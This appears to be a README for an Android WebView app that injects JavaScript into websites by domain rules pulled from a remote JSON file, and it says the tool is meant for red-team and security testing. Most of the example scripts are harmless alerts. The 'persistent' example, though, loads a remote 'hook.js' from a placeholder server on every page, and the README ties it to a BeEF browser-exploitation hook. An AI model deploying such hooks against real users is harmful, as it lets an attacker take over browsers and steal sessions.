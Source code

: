 # 🚀 WebView JavaScript Injector

This project is an **Android WebView app** that injects **custom JavaScript** into websites based on their **domain**, using **wildcards** and **regular expressions (regex)**. The JavaScript rules are stored in a remote JSON file.

---

## 🔹 How It Works

1. The app **downloads `app.json`** from a remote server.
2. It **extracts the domain** of the website being loaded.
3. It **checks the JSON file** for JavaScript rules matching the domain using:
   - ✅ **Exact match** (`b.com`)
   - ✅ **Wildcard match** (`*.example.com`)
   - ✅ **Regex match** (`regex:^.*\.secure\d+\.com$`)
   - ✅ **Default fallback** (if no match is found)
   - ✅ **Persistent scripts**  (optional: run on all pages if enabled useful for BeEF Hook)
4. The matching JavaScript is **injected into the WebView** using `evaluateJavascript()`.
5. When a user **navigates to another page**, the process repeats, injecting JavaScript for the new site.

---

## 📂 Example of Matching

| URL Loaded                   | Matched Rule                  | JavaScript Injected        |
|------------------------------|------------------------------|---------------------------|
| `https://api.example.com`    | `*.example.com`              | ✅ Wildcard matched       |
| `https://login.secure123.com` | `regex:^.*\.secure\d+\.com$` | ✅ Regex matched         |
| `https://b.com`              | `b.com`                      | ✅ Exact match           |
| `https://randomsite.com`     | `default`                    | ✅ Default script        |

---

## 📂 Example `app.json`

```json
{
    "url": "https://a.com",
    "websites": {
        "*.example.com": {
            "scripts": [
                "alert('Wildcard matched for example.com subdomains!');"
            ]
        },
        "regex:^.*\\.secure\\d+\\.com$": {
            "scripts": [
                "alert('Regex matched for secureX.com domains!');"
            ]
        },
        "b.com": {
            "scripts": [
                "alert('Welcome to B.com!');",
                "document.body.style.backgroundColor = 'blue';"
            ]
        }
    },
    "default": {
        "scripts": [
            "alert('No custom script for this site.');"
        ]
    },
    "persistent": {
         "scripts": [
            "var script = document.createElement('script');",
            "script.src = 'http://your-server.com/hook.js';",
            "document.head.appendChild(script);"
        ],
        "status": false
    }
}
```

## ⚠️ Legal & Ethical Disclaimer

🚨 This tool is developed strictly for educational and authorized security testing purposes only.

🔬 It is intended to help cybersecurity professionals, researchers, and enthusiasts understand post-exploitation, red teaming, and detection techniques in lab or controlled environments.

❌ Do NOT use this tool on any system or network without explicit permission. Unauthorized use may be illegal and unethical.

🛡 The author takes no responsibility for any misuse or damage caused by this project.

---

> Always hack responsibly. 💻🔐